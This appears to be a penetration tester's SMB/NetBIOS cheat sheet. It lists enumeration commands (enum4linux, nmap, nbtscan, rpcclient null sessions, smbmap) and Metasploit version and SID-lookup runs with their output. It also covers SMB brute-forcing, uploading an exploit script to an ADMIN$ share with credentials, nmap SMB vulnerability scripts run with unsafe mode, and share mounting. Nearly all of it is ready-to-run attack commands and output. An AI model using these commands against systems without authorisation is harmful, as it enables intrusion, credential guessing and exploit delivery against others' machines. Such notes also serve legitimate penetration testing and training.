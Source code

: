     == SMB NETBIOS== 
enum4linux x.x.x.x
nmap -v -p 139,445 -oG smb.txt 192.168.11.200-254
nbtscan -r 192.168.11.0/24
nmblookup -A target
smbclient //192.168.31.147/kathy -I 192.168.31.147
rpcclient -U "" target // connect as blank user /nobody
smbmap -u "" -p "" -d MYGROUP -H 10.11.1.22

## SMB version
msf auxiliary(scanner/smb/smb_version) > use auxiliary/scanner/smb/smb_version
msf auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.31.142
RHOSTS => 192.168.31.142
msf auxiliary(scanner/smb/smb_version) > run
[*] 192.168.31.142:139    - Host could not be identified: Unix (Samba 2.2.1a)

## SMB brute force
use auxiliary/scanner/smb/smb_login

## Existing users
msf auxiliary(scanner/smb/smb_lookupsid) > use auxiliary/scanner/smb/smb_lookupsid
msf auxiliary(scanner/smb/smb_lookupsid) > set RHOSTS 192.168.31.142
RHOSTS => 192.168.31.142
msf auxiliary(scanner/smb/smb_lookupsid) > run
[*] 192.168.31.142:139    - PIPE(LSARPC) LOCAL(MYGROUP - 5-21-4157223341-3243572438-1405127623) DOMAIN(MYGROUP - )
[*] 192.168.31.142:139    - TYPE=0 NAME=Administrator rid=500

    == NetBIOS NullSession enumeration ==
# This  feature  exists  to  allow  unauthenticated  machines  to  obtain  browse  lists  from  other  
# Microsoft   servers. Enum4linux is a wrapper  built on top of smbclient,rpcclient, net and nmblookup
enum4linux -a 192.168.1.1

## upload file
smbclient //192.168.31.142/ADMIN$ -U "nobody"%"somepassword" -c "put 40280.py"

  == NMAP SMB scripts ==
nmap --script smb-* --script-args=unsafe=1 192.168.10.55 

#  ls -lh /usr/share/nmap/scripts/smb*	
smb-brute.nse
smb-enum-domains.nse
smb-enum-groups.nse
smb-enum-processes.nse
smb-enum-sessions.nse
smb-enum-shares.nse
smb-enum-users.nse
smb-flood.nse
smb-ls.nse
smb-mbenum.nse
smb-os-discovery.nse
smb-print-text.nse
smb-psexec.nse
smb-security-mode.nse
smb-server-stats.nse
smb-system-info.nse
smb-vuln-conficker.nse
smb-vuln-cve2009-3103.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-regsvc-dos.nse
smbv2-enabled.nse

  #mount SMB shares in Linux
smbclient -L \\WIN7\ -I 192.168.13.218
smbclient -L \\WIN7\ADMIN$  -I 192.168.13.218
smbclient -L \\WIN7\C$ -I 192.168.13.218
smbclient -L \\WIN7\IPC$ -I 192.168.13.218
smbclient \\192.168.13.236\some-share -o user=root,pass=root,workgroup=BOB

# mount SMB share to a afolder
mount -t auto --source //192.168.31.147/kathy --target /tmp/smb/ -o username=root,workgroup=WORKGROUP

# mount SMB shares in Windows (via cmd)
net use X: \\<server>\<sharename> /USER:<domain>\<username> <password> /PERSISTENT:YES
